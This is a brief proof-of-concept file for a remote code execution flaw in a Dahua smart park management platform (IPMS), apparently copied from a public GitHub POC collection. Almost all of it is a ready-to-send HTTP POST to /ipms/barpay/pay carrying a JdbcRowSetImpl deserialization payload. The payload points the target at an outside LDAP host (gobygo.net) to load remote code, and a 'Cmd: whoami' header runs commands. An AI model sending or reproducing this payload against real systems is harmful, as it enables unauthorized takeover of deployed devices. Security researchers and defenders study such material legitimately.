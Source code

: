 # dahua_ipms_rce
from: https://github.com/wy876/POC/blob/main/%E5%A4%A7%E5%8D%8E%E6%99%BA%E6%85%A7%E5%9B%AD%E5%8C%BA%E7%BB%BC%E5%90%88%E7%AE%A1%E7%90%86%E5%B9%B3%E5%8F%B0ipms%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

2024.5.6 @2

```
POST /ipms/barpay/pay HTTP/1.1
Host: {host}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cmd: whoami
Content-Type: application/json
Accept-Encoding: gzip
Content-Length: 104

{"@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName": "ldap://gobygo.net/A4", "autoCommit": true}
```
